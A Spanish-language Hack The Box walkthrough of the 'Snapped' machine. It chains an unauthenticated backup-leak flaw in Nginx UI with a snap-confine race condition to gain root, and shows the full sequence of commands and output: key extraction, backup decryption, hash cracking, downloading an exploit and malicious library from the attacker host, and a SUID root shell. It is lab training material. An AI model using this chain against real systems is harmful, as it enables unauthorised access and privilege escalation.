

Snapped es una máquina Hard de Hack The Box que encadena
dos vulnerabilidades reales para obtener acceso y escalar a root.
El foothold explota CVE-2026-27944 en Nginx UI,
que expone el endpoint /api/backup sin autenticación
y filtra la clave de cifrado en los headers.
La escalada aprovecha CVE-2026-3888,
una race condition TOCTOU entre snap-confine (SUID root)
y systemd-tmpfiles, que permite secuestrar el linker dinámico
y obtener una shell root.
nmap -sCV 10.129.70.42 22/tcp ssh OpenSSH 9.6p1 Ubuntu 80/tcp http nginx 1.24.0 (Ubuntu)
ffuf -u http://10.129.70.42 -H 'Host: FUZZ.snapped.htb' \ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt admin [Status: 200]
Se agrega el subdominio al /etc/hosts:
echo "10.129.70.42 snapped.htb admin.snapped.htb" | sudo tee -a /etc/hosts
El panel admin.snapped.htb ejecuta Nginx UI vulnerable.
El endpoint /api/backup devuelve un backup completo
y en el header X-Backup-Security se filtra la clave AES.
curl -v http://admin.snapped.htb/api/backup -o backup.zip 2>&1 \ | grep -i "X-Backup-Security" < X-Backup-Security: KEY=... IV=...
KEY_HEX=$(echo "$KEY" | base64 -d | xxd -p -c 256)
IV_HEX=$(echo "$IV" | base64 -d | xxd -p -c 256)
openssl enc -d -aes-256-cbc -K $KEY_HEX -iv $IV_HEX -nopad \
-in nginx-ui.zip -out nginx-ui-decrypted.zip
unzip nginx-ui-decrypted.zip
strings database.db | grep '\$2a\$' $2a$10$8M7JZSRLKdtJpx9YRUNTmODN.pKoBsoGCBi5Z8/WVGO2od9oCSyWq
El hash corresponde al usuario jonathan. Se crackea con hashcat.
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt --force
ssh jonathan@snapped.htb Welcome to Ubuntu 24.04.4 LTS
user.txt
se encuentra en el home de jonathan.
CVE-2026-3888 es una race condition TOCTOU
entre snap-confine (SUID root) y systemd-tmpfiles.
El exploit abusa de la ventana temporal en la que systemd-tmpfiles
borra /tmp/.snap y la recrea con contenido malicioso.
gcc -O2 -static -o exploit exploit_suid.c
gcc -nostdlib -static -Wl,--entry=_start -o librootshell.so librootshell_suid.c
# Máquina atacante
python3 -m http.server 8080
# Target
wget http://10.10.15.237:8080/exploit -O ~/exploit
wget http://10.10.15.237:8080/librootshell.so -O ~/librootshell.so
chmod +x ~/exploit ~/librootshell.so
El exploit se ejecuta en el momento exacto en que systemd-tmpfiles
borra /tmp/.snap:
~/exploit ~/librootshell.so -d [+] Inner shell PID: 14715 [+] .snap already gone! [!] TRIGGER — swapping directories... [+] SWAP DONE — race won! [+] Poisoned namespace PID: 14895 [+] Payload injected. [+] SUID root bash: /var/snap/firefox/common/bash (mode 4755)
/var/snap/firefox/common/bash -p bash-5.1# whoami root bash-5.1# cat /root/root.txt